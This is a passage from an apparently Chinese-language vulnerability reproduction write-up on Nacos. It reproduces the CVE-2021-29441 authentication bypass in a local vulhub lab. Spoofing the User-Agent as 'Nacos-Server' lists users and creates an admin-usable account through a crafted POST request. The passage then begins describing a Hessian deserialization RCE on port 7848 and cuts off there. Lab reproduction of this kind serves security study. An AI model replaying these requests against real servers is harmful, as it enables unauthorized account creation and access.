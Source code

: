     nacos<1.4.1  
    

## 复现

在vulhub上搭建环境

    
    
    cd /root/桌面/docker/vulhub/nacos/CVE-2021-29441/  
    docker-compose up -d  
    

开启burp抓包

    
    
    http://192.168.111.128:8848/nacos/v1/auth/users?pageNo=1&pageSize=9  
    

把UA改成`Nacos-Server`

![]()

1.成功访问，绕过鉴权，返回用户列表数据

![]()

2.绕过鉴权 添加新用户

请求行改成：

    
    
    POST /nacos/v1/auth/users?username=hglight&password=hglight HTTP/1.1  
    

ua改成：`Nacos-Server`

![]()

成功添加一个`hglight/hglight`的用户

3.再次查看用户列表

![]()

4.登录

![]()

# 五、nacos Hessian反序列化

## 原理

nacos默认的7848端口是用来处理集群模式下raft协议的通信，该端口的服务在处理部分jraft请求的时候使用hessian传输协议进行反序列化过滤不严，导致rce

## 影响版本
